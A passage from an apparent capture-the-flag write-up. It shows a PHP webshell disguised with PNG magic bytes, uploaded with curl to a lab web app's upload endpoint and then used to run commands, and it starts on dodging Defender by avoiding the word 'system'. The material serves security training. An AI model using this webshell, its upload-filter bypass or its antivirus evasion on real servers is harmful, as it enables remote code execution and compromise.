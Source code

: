 It doesn’t say anything here about it, but the script (and I will do) has the
webshell start with the [magic
bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) for a PNG image
to pass MIME filtering as well.

I can do all of this with `curl`. First, I’ll create the webshell:

    
    
    root@kali# echo -e '\x89\x50\x4e\x47\x0d\x0a\x1a\n<?php echo shell_exec($_REQUEST["cmd"]); ?>' > shell.php.png 
    

Now, I’ll use `curl` to upload it with the following arguments:

  * `-X POST` \- sets the requests type to POST
  * Include the `?id=0xdf` at the end of the url; the webshell will be renamed to that id
  * `-F 'pupload=upload'` \- first form field
  * `-F 'file=@shell.php.png'` \- second form field, with the value being the contents of the file `shell.php.png`

Because the file I’m uploading has a `.png` extension, `curl` will handle
setting the content type header for me. Running this will return nothing:

    
    
    root@kali# curl -X POST 'http://10.10.10.198:8080/upload.php?id=0xdf' -F 'pupload=upload' -F 'file=@shell.php.png'
    

But then I can trigger the webshell:

    
    
    root@kali# curl http://10.10.10.198:8080/upload/0xdf.php?cmd=whoami
    PNG
    
    buff\shaun
    

### Fighting with Defender

I did get stuck for a while when I tried to make my webshell using `system()`
instead of `echo shell_exec()`. For some reason this fails on upload:

    
    
    root@kali# echo -e '\x89\x50\x4e\x47\x0d\x0a\x1a\n<?php system($_REQUEST["cmd"]); ?>' > shell_system.php.png
    root@kali# curl -X POST 'http://10.10.10.198:8080/upload.php?id=0xdf' -F 'pupload=upload' -F 'file=@shell_system.php.png' -x http://127.0.0.1:8080
    <br />
    <b>Warning</b>:  move_uploaded_file(C:\xampp\tmp\php60D2.tmp): failed to open stream: Invalid argument in <b>C:\xampp\htdocs\gym\upload.php</b> on line <b>35</b><br />
    <br />
    <b>Warning</b>:  move_uploaded_file(): Unable to move 'C:\xampp\tmp\php60D2.tmp' to 'upload/0xdf.php' in <b>C:\xampp\htdocs\gym\upload.php</b> on line <b>35</b><br />
    

The error is talking about a failure to move the temporary file to
`upload/0xdf.php`. At first I thought it might be something with the name I
was using already existing, but I’d shown myself in experimenting that I am
able to overwrite a previous webshell. I tried on a fresh reset, and with a
different `id`, but still the same error. My best guess was that the AV on the
box is triggering on something in the file, and it turns out to be the word
`system`. For example here it is failing:
